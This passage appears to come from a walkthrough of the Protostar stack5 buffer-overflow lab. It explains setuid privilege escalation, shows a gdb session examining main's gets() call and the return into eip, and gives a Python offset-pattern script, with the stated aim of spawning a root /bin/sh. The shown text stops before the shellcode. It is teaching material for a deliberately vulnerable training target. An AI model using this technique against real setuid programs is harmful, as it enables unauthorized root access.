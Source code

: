 As the binary has the `setuid` flag, any shell we spawn from it will run with **elevated privileges**. If a binary has the `setuid` flag set and is owned by root, then when you execute that binary, your **Effective UID (EUID)** will be root (0), even if your **Real UID (RUID)** is a normal user. So the shellcode that we use here is `/bin/sh` to gain root access.

First, I run the program in `gdb`.

``` shell
user@protostar:~$ gdb /opt/protostar/bin/stack5
(gdb) disassemble main
Dump of assembler code for function main:
0x080483c4 <main+0>:    push   %ebp
0x080483c5 <main+1>:    mov    %esp,%ebp
0x080483c7 <main+3>:    and    $0xfffffff0,%esp
0x080483ca <main+6>:    sub    $0x50,%esp
0x080483cd <main+9>:    lea    0x10(%esp),%eax
0x080483d1 <main+13>:   mov    %eax,(%esp)
0x080483d4 <main+16>:   call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:   leave
0x080483da <main+22>:   ret
End of assembler dump.
(gdb) break *0x080483da
Breakpoint 1 at 0x80483da: file stack5/stack5.c, line 11.
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/1i $eip
>x/8wx $esp
>end
(gdb) r
Starting program: /opt/protostar/bin/stack5
AAAA
0x80483da <main+22>:    ret
0xbffff7ac:     0xb7eadc76      0x00000001      0xbffff854      0xbffff85c
0xbffff7bc:     0xb7fe1848      0xbffff810      0xffffffff      0xb7ffeff4

Breakpoint 1, 0x080483da in main (argc=134513604, argv=0x1) at stack5/stack5.c:11
.....
(gdb) si
0xb7eadc76 <__libc_start_main+230>:     mov    %eax,(%esp)
0xbffff7b0:     0x00000001      0xbffff854      0xbffff85c      0xb7fe1848
0xbffff7c0:     0xbffff810      0xffffffff      0xb7ffeff4      0x08048232
__libc_start_main (main=0x80483c4 <main>, argc=1, ubp_av=0xbffff854, init=0x80483f0 <__libc_csu_init>, fini=0x80483e0 <__libc_csu_fini>,
    rtld_fini=0xb7ff1040 <_dl_fini>, stack_end=0xbffff84c) at libc-start.c:260
...
```

After the **ret** instruction executes, the address `0xb7eadc76`, which was previously stored on the stack was popped into **eip**. Now, I create a script to find the offset that lets me take control of the instruction pointer.

``` python
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ"

print padding
```
